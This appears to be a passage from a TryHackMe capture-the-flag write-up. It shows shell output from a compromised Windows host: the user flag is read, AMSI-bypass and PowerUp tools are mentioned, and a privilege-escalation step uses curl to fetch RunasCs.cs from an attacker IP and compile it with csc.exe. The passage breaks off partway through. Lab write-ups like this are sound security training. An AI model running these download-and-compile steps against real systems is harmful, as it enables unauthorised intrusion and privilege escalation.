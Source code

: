 C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users

06/30/2023  07:52 AM    <DIR>          .
06/30/2023  07:52 AM    <DIR>          ..
09/18/2024  07:45 AM    <DIR>          Administrator
11/25/2023  12:15 AM    <DIR>          hugo
12/12/2018  07:45 AM    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)  10,904,109,056 bytes free

C:\Users\hugo\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\hugo\Desktop

07/10/2023  09:40 PM    <DIR>          .
07/10/2023  09:40 PM    <DIR>          ..
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
07/25/2023  02:14 PM                48 user.txt
               3 File(s)          1,129 bytes
               2 Dir(s)  10,904,109,056 bytes free

C:\Users\hugo\Desktop>type user.txt
type user.txt
THM{WITH_GREAT_POWER_COMES_GREAT_RESPONSIBILITY}

This machine is a windows with AV protection so, the:

**** PowerUp.ps1, disable AMSI, and p0wny **** Will not Work and i also

### Privilage Escalation

PS C:\Users\hugo\desktop> curl http://10.9.30.202/runAsCs.cs -o runAsCs.cs
curl http://10.9.30.202/runAsCs.cs -o runAsCs.cs

PS C:\users\hugo\desktop> C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -target:exe -optimize -out:RunasCs.exe RunasCs.cs
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -target:exe -optimize -out:RunasCs.exe RunasCs.cs

Microsoft (R) Visual C# Compiler version 4.8.3761.0
for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.

This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240

PS C:\users\hugo\desktop> dir
dir
